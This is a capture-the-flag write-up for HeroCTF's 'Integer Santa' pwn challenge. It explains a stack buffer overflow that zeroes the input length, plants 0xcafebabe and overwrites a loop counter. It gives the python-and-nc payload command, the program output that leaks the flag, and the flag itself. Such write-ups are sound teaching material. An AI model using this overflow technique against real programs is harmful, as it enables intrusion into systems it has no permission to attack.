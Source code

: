 # Integer Santa

### Category

Pwn

### Description

Tell Santa what you want for chrismas ! 

```
Host : chall0.heroctf.fr
Port : 9000
```

Format : **Hero{flag}**<br>
Author : **SoEasY**

### Write up

This loop is interesting : 

```c
for(int i=0; i < tours; i++){
    if(i > strlen(flag))
        break;
    printf("%.*s\n", strlen(input) == 0 && valeur==0xcafebabe, ptr);
		ptr += 1;
}
```

We have to overflow the input buffer of 64 bytes, keep the value 0xcafebabe for the int "valeur" (cf. source code in C) and then overflow the "tours" int, whith  the length of the input which must be 0.

Then, the condition `strlen(input) == 0 && valeur==0xcafebabe` will return TRUE, which correponds to the int 1, and so the programm will give you a letter of the flag. By overflowing the variable "tours" we can print all the flag.

So the payload contains : 
- \x00 * 64 to overflow the buffer and having a input length of 0
- 0xcafebabe 
- a caracter to overflow the "tours" int

```bash
$ python2 -c "print('\x00'*64 + '\xbe\xba\xfe\xca' + '1')" | nc challs.heroctf.fr xxxx
██╗  ██╗███████╗██████╗  ██████╗  ██████╗████████╗███████╗
██║  ██║██╔════╝██╔══██╗██╔═══██╗██╔════╝╚══██╔══╝██╔════╝
███████║█████╗  ██████╔╝██║   ██║██║        ██║   █████╗  
██╔══██║██╔══╝  ██╔══██╗██║   ██║██║        ██║   ██╔══╝  
██║  ██║███████╗██║  ██║╚██████╔╝╚██████╗   ██║   ██║     
╚═╝  ╚═╝╚══════╝╚═╝  ╚═╝ ╚═════╝  ╚═════╝   ╚═╝   ╚═╝     
================ Integer Santa (by SoEasY) ===============

Ho ho ho... It's Integer Santa !
Tell me what do you wan for Xmas kiddo (you can ask for 1 gift only !!!) : H
e
r
o
{
W
3
1
r
d
_
0
v
3
r
F
l
0
w
_
f
0
r
_
X
m
4
s
}

Alright ! I'll tell my pixies :)
See u kiddo !
```

### Flag

Hero{W31rd_0v3rFl0w_f0r_Xm4s}
